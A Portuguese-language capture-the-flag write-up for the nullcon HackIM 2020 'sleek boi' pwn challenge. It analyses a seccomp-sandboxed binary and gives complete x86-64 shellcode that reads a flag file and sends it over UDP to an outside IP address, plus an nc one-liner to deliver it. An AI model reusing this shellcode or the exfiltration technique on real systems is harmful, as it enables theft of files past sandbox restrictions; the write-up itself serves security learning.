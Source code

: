 # sleek boi


## Infos
**Descrição**: I don't talk, but I can be submissive

**Anexo**: [chall](attachments/chall)


## Análise do desafio 

Neste desafio recebemos um arquivo binário com as seguintes características:
<pre>
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
</pre>

Analisando estaticamente o anexo percebemos três funções interessantes. São elas:

- main 
- sub_D0E (**child_do**)
- sub_B74 (**setup_syscall_filter**)

### main

A função **main** mapeia uma região de memória de 16Kb com permissões de leitura, escrita e execução. Logo em seguida este espaço é preenchido com um buffer lido de *stdin*.

Após um *fork* bem-sucedido a função **child_do** é executada pelo processo filho tomando como argumento um ponteiro para a região mapeada acima.

<pre lang="c">
void main(int argc, char *argv[ ]){
  int v3, v4;
  __pid_t v5; 
  char *buf; 
  
  v3 = getpagesize();
  buf = mmap(0LL, -v3 & 0x4000, 7, 34, -1, 0LL);
  if ( !buf )
    __assert_fail("psc != NULL", "chall.c", 0x5Du, "main");
  fflush(stdout);
  v4 = getpagesize();
  buf[(signed int)read(0, buf, -v4 & 0x4000)] = -61;
  v5 = fork();
  if ( v5 < 0 )
    perror("fork");
  if ( v5 > 0 ){
    wait(0);
    exit(0);
  }
  child_do(buf);
}
</pre>

### child_do

A função **child_do** faz uma chamada para a função **setup_syscall_filter** (única diferença em relação ao desafio [meek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/meek_boi)).

Em seguida o *file descriptor* para */dev/null* é duplicado para *stdin*, *stdout* e *stderr* e o fluxo de execução é desviado para o espaço mapeado na função **main**. 

<pre lang="c">
void child_do(void (*f)()){
  unsigned int fd; // ST1C_4
  
  setup_syscall_filter();
  fclose(stdin);
  fclose(stdout);
  fclose(stderr);
  fd = open("/dev/null", 2);
  dup2(fd, 0);
  dup2(fd, 1);
  dup2(fd, 2);
  f();
  exit(0);
}
</pre>

### setup_syscall_filter

Em **setup_syscall_filter** são atribuídas, via *prctl*, restrições às chamadas de sistema que podem ser executadas pelo processo.

Utilizando a ferramenta [seccomp-tools](https://github.com/david942j/seccomp-tools) podemos visualizar facilmente quais *syscalls* estão sendo filtradas.


<pre lang="c">
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x15 0x06 0x00 0x0000003b  if (A == execve) goto 0010
0004: 0x15 0x05 0x00 0x00000142  if (A == execveat) goto 0010
0005: 0x15 0x04 0x00 0x0000002a  if (A == connect) goto 0010
0006: 0x15 0x03 0x00 0x00000031  if (A == bind) goto 0010
0007: 0x15 0x02 0x00 0x0000002b  if (A == accept) goto 0010
0008: 0x15 0x01 0x00 0x00000120  if (A == accept4) goto 0010
0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
0010: 0x06 0x00 0x00 0x00051234  return ERRNO(4660)
</pre>




## Solução

Este é um desafio clássico de *shellcoding*. Temos que passar para o *server* um payload que nos permita ler */home/pwn/flag*.
Para isso devemos contornar as seguintes restrições:

- não podemos interagir com *stdin*, *stdout* e *stderr*
- não podemos fazer chamada às *syscalls* filtradas em **setup_syscall_filter**

Na primeira versão deste desafio ([meek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/meek_boi)) é possível resolver através de uma *shell* reversa. Mas, no [sleek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/sleek_boi), não podemos estabelecer uma conexão TCP. Logo, temos que adotar outra estratégia. A alternativa que utilizei neste desafio foi exfiltrar a *flag* via UDP.


<pre lang="asm">
; sm.asm
section .text
global _start

_start:
  ; just to ensure that the child process regs will not get in the way
  xor rax, rax
  xor rbx, rbx
  xor rcx, rcx
  xor rdx, rdx
  xor rdi, rdi
  xor rsi, rsi
  xor r8, r8
  xor r9, r9
  xor r10, r10
  xor r11, r11
  xor r12, r12
  xor r13, r13
  xor r14, r14
  xor r15, r15

 ; socket(PF_INET, SOCK_DGRAM, IPPROTO_IP)
  push byte 2
  pop rdi
  mov rsi, rdi
  xor rax, rax
  mov al, 0x29 ; __NR_socket
  syscall

  ; open("/home/pwn///flag", O_RDONLY)·
  mov r12, rax
  xor rsi, rsi
  push rsi
  push 1
  dec byte [rsp]
  mov rax, 0x67616c662f2f2f6e
  push rax
  mov rax, 0x77702f656d6f682f
  push rax
  mov rdi, rsp ; /home/pwn///flag
  xor edx, edx·
  xor esi, esi·
  push 2 ; __NR_open
  pop rax
  syscall

  ; read(fd, buf, 0x38)
  mov r11, rax ; flag fd to r11
  xor eax, eax ; __NR_read  = 0
  mov rdi, r11 ; flag fd
  push 0x38
  pop rdx
  sub rsp, 0x38 ; buf
  mov rsi, rsp
  syscall

  ;sendto(int sockfd, const void *buf, size_t len, int flags,
  ;      const struct sockaddr *dest_addr, socklen_t addrlen);
  lea r11, [rsp]
  mov rdx, rax ; len
  mov rax, 0x101010101010101
  push rax
  mov rax, 0x101010101010101 ^ 0x5a37e82c9a020002
  xor [rsp], rax
  mov r8, rsp ; {sa_family=AF_INET, sin_port=htons(666), sin_addr=inet_addr("44.232.55.90")}
  xor r10, r10·
  push r10
  push 1
  pop r10
  dec r10
  push 0x10
  pop r9 ; addrlen
  mov rsi, r11 ; buf
  mov rdi, r12 ; sockfd
  xor rax, rax
  mov al, 0x2c ; __NR_sendto
  syscall

  ; exit(0)
  xor rdi, rdi
  xor rsi, rsi
  xor rax, rax
  mov al, 0x3c
  syscall
</pre>

<pre lang='shellscript'>
$ nasm sc.asm -felf64 -o sc.o; ld sc.o -o sc
$ printf $(for i in $(objdump -d sc -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done) | nc pwn4.ctf.nullcon.net 5003
</pre>

### Flag
`hackim20{OMG_The_first_one_was_unintended}`





